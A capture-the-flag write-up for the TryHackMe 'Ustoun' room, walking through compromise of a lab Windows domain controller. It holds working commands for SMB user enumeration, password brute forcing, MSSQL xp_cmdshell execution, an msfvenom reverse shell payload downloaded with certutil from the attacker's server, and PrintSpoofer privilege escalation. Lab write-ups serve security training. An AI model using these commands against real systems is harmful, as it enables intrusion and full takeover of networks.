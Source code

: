 ```yaml
---
description: https://tryhackme.com/room/ustoun
---
```


# USTOUN

## Nmap

```
sudo nmap 10.10.82.202 -p- -sS -sV

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-06-24 07:30:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ustoun.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ustoun.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
49795/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Starting off we try default LDAP nmap scripts with null credentials against the Domain Controller.

```bash
nmap -n -sV --script "ldap* and not brute" <IP>
```

This reveals the domain name of ustoun.local

![](<../../../.gitbook/assets/image (1813).png>)

I then checked `SMB` and was successful using anonymous login with `Crackmapexec`. Here I used the `--rid-brute` option and grepped for users accounts.

```bash
crackmapexec smb <IP> -u 'a' -p '' --users --rid-brute | grep '(SidTypeUser)'
```

![](<../../../.gitbook/assets/image (1814).png>)

Since we now have the user account `SVC-Kerb` I will attempt to brute force the login over `SMB` with `Crackmapexec`.

```bash
crackmapexec smb <IP> -u 'SVC-Kerb' -p /usr/share/wordlists/rockyou.txt | grep '[+]'
```

![](<../../../.gitbook/assets/image (1815).png>)

From here I was unable to execute commands through `SMB` or resolve any new information. I logged into SYSVOL and NETLOGON and was unable to find anything at all. `WinRM` was not accepting these credentials and `RDP` was not letting me in either.

I then tried `MSSQL` with Impacket's mssqlclient.py and was given access.

```bash
python mssqlclient.py -port 1433 svc-kerb:superman@<IP>
```

![](<../../../.gitbook/assets/image (1816).png>)

From here we can run `enable_xp_cmdshell` and then confirm command execution with `xp_cmdshell whoami`.

![](<../../../.gitbook/assets/image (1817).png>)

In order to gain a decent shell from here I next generated a `msfvenom` `metasploit` executable.

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=4422 -f exe -o reverse.exe
```

Then hosted a Python SimpleHTTPServer on my attacking machine. I then used the `MSSQL` session to download the file with `certutil.exe` and copy to c:\windows\temp. I then used another command to run the reverse.exe and gain a `meterpreter` shell.

```bash
xp_cmdshell cmd.exe /c certutil.exe -f -urlcache -split http://<IP>/reverse.exe c:\windows\temp\reverse.exe
xp_cmdshell cmd.exe /c c:\windows\temp\reverse.exe
```

![](<../../../.gitbook/assets/image (1818).png>)

Dropping into Shell and checking our privileges shows we have the privilege `SeImpersonatePrivilege`.

![](<../../../.gitbook/assets/image (1819).png>)

This can be used to perform Juicy Potato attacks or PrintSpoofer attacks. Checking systeminfo we notice we are running Windows Server 2019.

![](<../../../.gitbook/assets/image (1820).png>)

As a result a successful Juicy Potato attack would be unlikely however, a Print Spoofer attack or CVE-2020-1048 would be more viable and likely: [https://nvd.nist.gov/vuln/detail/CVE-2020-1048](https://nvd.nist.gov/vuln/detail/CVE-2020-1048).

To perform this attack upload the following binary to the target system: [https://github.com/dievus/printspoofer](https://github.com/dievus/printspoofer).

![](<../../../.gitbook/assets/image (1821).png>)

Once uploaded run the following command to spawn a privileged shell.

```bash
PrintSpoofer.exe -i -c cmd
```

![](<../../../.gitbook/assets/image (1822).png>)

From here we are able to access the Administrator's Desktop and grab the root flag.

![](<../../../.gitbook/assets/image (1823).png>)
